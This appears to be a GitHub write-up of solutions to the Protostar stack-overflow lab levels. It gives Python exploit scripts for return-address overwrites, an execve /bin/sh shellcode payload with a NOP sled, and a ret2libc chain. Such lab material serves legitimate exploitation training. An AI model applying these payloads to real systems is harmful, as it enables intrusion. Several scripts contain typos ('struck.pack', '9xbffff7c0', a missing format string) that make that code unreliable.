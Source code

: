 # Protostar

## Stack 0
Simple buffer overflow, use python -c print "A" * 40

## Stack 3
```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
#print (padding)
#chr(0x51) #prints char that is 0x51 (Q)
padding += "\x24\x84\x04\x08" #0x08 04 84 24 -> Little endian address
print padding
```

## Stack 4
Change the eip that was pushed to the stack, so when ret happens we go to where we want.
```python
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
ebp = "AAAA"
eip = struck.pack("I", 0x080483f4) # Convert number to binary string
print (padding+ebp+eip)
```

## Stack 5
Getting root privileges
We use the esp to move the return of the function to writing as root
```python
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struck.pack("I", 9xbffff7c0+30)
nopslide = "x90" * 100
payload = "\xCC" * 4 #uses interrupt instruction
print (padding+eip+nopslide+payload)
```

Using shell-storm.org /bin/sh code [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php)

```python
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```
When executing, use the command:
```
(python exploit.py; cat) | /opt/protostar/bin/stack5
```
Then we have the shell.

## Stack 6
We can get the offset related to the library using
```
strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
```
So, we use `info proc map` and get the address of the libc. <br>
Then, `x/s 0xlibcaddr+0xoffset`. <br>
Using `0xb7fb64bf` as example.

```python
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
system = struct.pack("I", 0xb7ecffb0)
return_after_system = "AAAA"
bin_sh = struct.pack(0xb7fb64bf)
print padding + system + return_after_system + bin_sh
```

